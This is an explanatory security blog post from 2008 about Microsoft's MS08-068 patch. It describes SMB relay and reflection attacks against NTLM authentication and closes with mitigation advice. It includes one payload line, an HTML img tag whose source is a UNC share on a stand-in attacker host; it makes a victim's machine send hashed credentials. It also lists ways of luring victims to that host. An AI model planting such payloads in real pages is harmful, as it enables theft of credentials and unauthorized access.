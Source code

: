 ```yaml
---
id: 110
title: 'ms08-068 &#8212; Preventing SMBRelay Attacks'
date: '2008-11-12T12:38:29-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=110'
permalink: /2008/ms08-068-preventing-smbrelay-attacks
categories:
    - hacking
    - smb
---
```


Microsoft released ms08-068 this week, which fixes a vulnerability that's been present and documented since 2001. I'm going to write a quick overview of it here, although you'll probably get a better one by reading <a href='http://blog.metasploit.com/2008/11/ms08-067-metasploit-and-smb-relay.html'>The Metasploit Blog</a>. 
<!--more-->
Keep in mind that there is a lot of fun stuff that can be done with the SMB protocol. I'm going to talk about a few different design flaws right now, and point out exactly what ms08-068 patches. Hang on, though, this is going to get somewhat technical. The payoff, however, is that this is incredibly interesting stuff, and I'm happy to clear up any technical confusion. Just leave me a comment or an email! 

I have talked about how <a href='http://www.skullsecurity.org/blog/?p=34'>Lanman and NTLM</a> work (or fail to work) in the past, so I'll assume you've read that and just post a quick overview here. Basically, Lanman and NTLM will hash your password using their respective algorithms (and store the hashes on the system), then hash it again based on the server's 8-byte challenge. This second hash is the same for Lanman and NTLM -- it takes the hash already generated, splits it into three 7-byte chunks (padding it to 21 bytes), and encrypting the server challenge with each of those chunks. If an attacker already has access to the Lanman and NTLM hashes, then the game has already been won (the hashes can be directly used to log in). 

The primary advantage to having a server challenge is to prevent pre-computed attacks (that is, it provides salt-like value to prevent rainbow tables-style precomputation attacks against the algorithm). Naturally, a malicious server can send a known challenge and generate tables based on that. This type of attack has been fixed in NTLMv2 (since the client provides part of the randomness). 

A SMB Relay attack is a type of man-in-the-middle attack where the attacker asks the victim to authenticate to a machine controlled by the attacker, then relays the credentials to the target. The attacker forwards the authentication information both ways, giving him access. Here are the players in this scenario:
<ul>
<li>The <b>attacker</b> is the person trying to break into the target</li>
<li>The <b>victim</b> is the person who has the credentials</li>
<li>The <b>target</b> is the system the attacker wants access to, and that the victim has credentials for</li>
</ul>

And here's the scenario (see the image at the right for a diagram):
<img src='http://www.skullsecurity.org/blogdata/ms08-068-1.png' style='float: right;' />
<ol>
<li>Attacker tricks the victim into connecting to him; this is easy, I'll explain how later</li>
<li>Attacker establishes connection to the target, receives the 8-byte challenge</li>
<li>Attacker sends the 8-byte challenge to victim</li>
<li>Victim responds to the attacker with the password hash</li>
<li>Attacker responds to the target's challenge with the victim's hash</li>
<li>Target grants access to attacker</li>
</ol>

In the case of Metasploit, the attacker goes on to upload and execute shellcode, but that process isn't important, and it's discussed on the Metasploit blog posting. 

Now, as an attacker, we have two problems: the victim needs to initiate a connection to the attacker, and the victim needs to have access to the target. 

The first problem is easy to solve -- to initiate a session, send the user a link that goes to the attacker's machine. For example, send them to a Web site containing the following code:
<pre>&lt;img src="\\Attacker\SHARE\file.jpg"&gt;</pre>

Their browser will attempt to connect to a share on the attacker called "SHARE", during which a session will be established. The victim's machine will automatically send the current credentials, hashed with whatever challenge is sent by the attacker (naturally, for the attack, this is the target's challenge). This can be delivered to them through an email link, through a stored cross-site scripting attack, by vandalizing a site they frequent, redirecting them with DNS poisoning, ARP spoofing, <a href='http://www.skullsecurity.org/blog/?p=6'>NetBIOS poisoning</a>, and any number of other ways. Suffice to say, it's pretty easy to trick the victim into connecting to the attacker. 


The second problem is that the victim needs to have access to the target. This one is slightly more difficult, but it can happen in a number of ways:
<ul>
<li>In a domain scenario, the user's domain account may have access to multiple machines, including the target</li>
<li>In other scenarios, users are well known to synchronize their password between machines. The target may have the same password as the victim, which would make the attack work</li>
<li>The target may be the <i>same physical machine as the victim</i></li>
</ul>

That third point is the interesting one -- this can be used to exploit the computer itself! So, in that scenario, here are the modified steps (see the image at the right, although I think it's probably more confusing :) ):
<img src='http://www.skullsecurity.org/blogdata/ms08-068-2.png' style='float: right;' />
<ol>
<li>Attacker tricks the victim into connecting to him</li>
<li>Attacker establishes connection back to the victim, receives the 8-byte challenge</li>
<li>Attacker sends the victim's 8-byte back</li>
<li>Victim responds to the attacker with the password hash that'll give the attacker access to the victim's own computer</li>
<li>Attacker responds to the victim's challenge with the victim's hash</li>
<li>Victim grants access to attacker</li>
</ol>

Hopefully that isn't too confusing. What it essentially means is that the victim will grant access to the attacker using its own credentials. 

And this particular attack is what ms08-068 patches! 

To put it another way: ms08-068 patches an attack (discovered in 2001) where a victim is tricked into giving an attacker access to connect to itself. 

<h2>Mitigation</h2>
I talked a lot about vulnerabilities in the SMB protocol. Unfortunately, ms08-068 only fixes one of them. The issue is that the others are design flaws and can't be fixed without breaking clients. That being said, even though Microsoft can't fix them, you can fix them yourself, more or less, at the cost of potentially breaking clients (these can be done with local/domain security policies or registry hacks; search for them to find information):
<ul>
<li>Enable (and require) NTLMv2 authentication -- this will prevent pre-computed attacks, because the client provides part of the randomness</li>
<li>Enable (and require) message signing for both clients and servers -- this will prevent relay attacks</li>
<li>Install ms08-068 -- this will prevent a specific subset of relay attacks, where it's relayed back to itself</li>
</ul>

Hope that helps! 

And, as usual, if you have any questions feel free to track me down. 

Ron
